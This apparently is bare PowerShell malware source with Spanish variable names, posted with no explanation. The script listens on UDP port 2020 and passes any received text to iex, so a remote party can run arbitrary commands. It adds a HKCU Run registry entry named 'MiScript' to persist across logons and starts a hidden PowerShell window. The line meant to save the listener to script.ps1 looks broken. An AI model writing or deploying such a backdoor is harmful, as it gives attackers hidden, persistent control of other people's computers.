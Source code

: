 $rutaScript = Join-Path $env:HOMEDRIVE "\Users\$env:USERNAME\script.ps1";$port = 2020;$endpoint = New-Object System.Net.IPEndPoint ([IPAddress]::Any, $port);$udpclient = New-Object System.Net.Sockets.UdpClient $port;$content = $udpclient.Receive([ref]$endpoint);[Text.Encoding]::ASCII.GetString($content) | iex ;$udpclient.Dispose() > $rutaScript

$nombreEntrada = "MiScript"
$valorEntrada = "powershell.exe -File $rutaScript"
if (-not (Test-Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run\$nombreEntrada")) {
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name $nombreEntrada -Value $valorEntrada
}
Start-Process -FilePath "powershell.exe" -ArgumentList "-WindowStyle Hidden -File $rutaScript" -NoNewWindow -PassThru


